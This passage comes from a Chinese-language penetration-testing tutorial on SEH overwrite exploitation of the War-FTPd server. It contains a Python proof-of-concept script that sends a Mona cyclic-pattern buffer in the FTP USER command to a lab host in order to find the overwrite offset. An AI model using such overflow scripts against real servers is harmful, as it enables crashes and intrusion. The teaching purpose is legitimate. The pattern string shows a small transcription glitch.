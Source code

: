 ![使用 Mona 生成循环模式](img/httpatomoreillycomsourcenostarchimages2030548.png.jpg)图 18-5. 使用 Mona 生成循环模式

将生成的模式从*C:\logs\war-ftpd\pattern.txt*复制到利用代码中，替换掉 1,150 个*A*，如示例 18-2 所示。

示例 18-2. 使用模式生成精确定位攻击字符串中的 SEH 覆盖

```
  root@kali:~# **cat ftpexploit2**
  #!/usr/bin/python
  import socket
❶ buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2
  Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8
  Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4
  Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0
  Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6
  Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2
  Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8
  Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au5Au6
  Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2
  Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8
  Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4
  Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0
  Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6
  Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2
  Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2B"
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  connect=s.connect(('192.168.20.10',21))
  response = s.recv(1024)
  print response
  s.send('USER ' + buffer  + '\r\n')
  response = s.recv(1024)
  print response
  s.close()
```
